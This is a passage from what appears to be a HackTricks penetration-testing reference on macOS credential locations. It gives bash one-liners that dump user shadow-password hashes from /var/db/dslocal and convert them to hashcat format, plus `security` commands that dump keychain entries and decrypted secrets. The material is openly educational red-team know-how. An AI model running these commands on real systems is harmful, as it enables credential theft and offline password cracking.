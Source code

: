 # macOS Sensitive Locations & Interesting Daemons

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Passwords

### Shadow Passwords

Shadow password is stored with the user's configuration in plists located in **`/var/db/dslocal/nodes/Default/users/`**.\
The following oneliner can be use to dump **all the information about the users** (including hash info):

{% code overflow="wrap" %}
```bash
for l in /var/db/dslocal/nodes/Default/users/*; do if [ -r "$l" ];then echo "$l"; defaults read "$l"; fi; done
```
{% endcode %}

[**Scripts like this one**](https://gist.github.com/teddziuba/3ff08bdda120d1f7822f3baf52e606c2) or [**this one**](https://github.com/octomagon/davegrohl.git) can be used to transform the hash to **hashcat** **format**.

An alternative one-liner which will dump creds of all non-service accounts in hashcat format `-m 7100` (macOS PBKDF2-SHA512):

{% code overflow="wrap" %}
```bash
sudo bash -c 'for i in $(find /var/db/dslocal/nodes/Default/users -type f -regex "[^_]*"); do plutil -extract name.0 raw $i | awk "{printf \$0\":\$ml\$\"}"; for j in {iterations,salt,entropy}; do l=$(k=$(plutil -extract ShadowHashData.0 raw $i) && base64 -d <<< $k | plutil -extract SALTED-SHA512-PBKDF2.$j raw -); if [[ $j == iterations ]]; then echo -n $l; else base64 -d <<< $l | xxd -p -c 0 | awk "{printf \"$\"\$0}"; fi; done; echo ""; done'
```
{% endcode %}

### Keychain Dump

Note that when using the security binary to **dump the passwords decrypted**, several prompts will ask the user to allow this operation.

```bash
#security
secuirty dump-trust-settings [-s] [-d] #List certificates
security list-keychains #List keychain dbs
security list-smartcards #List smartcards
security dump-keychain | grep -A 5 "keychain" | grep -v "version" #List keychains entries
security dump-keychain -d #Dump all the info, included secrets (the user will be asked for his password, even if root)
```
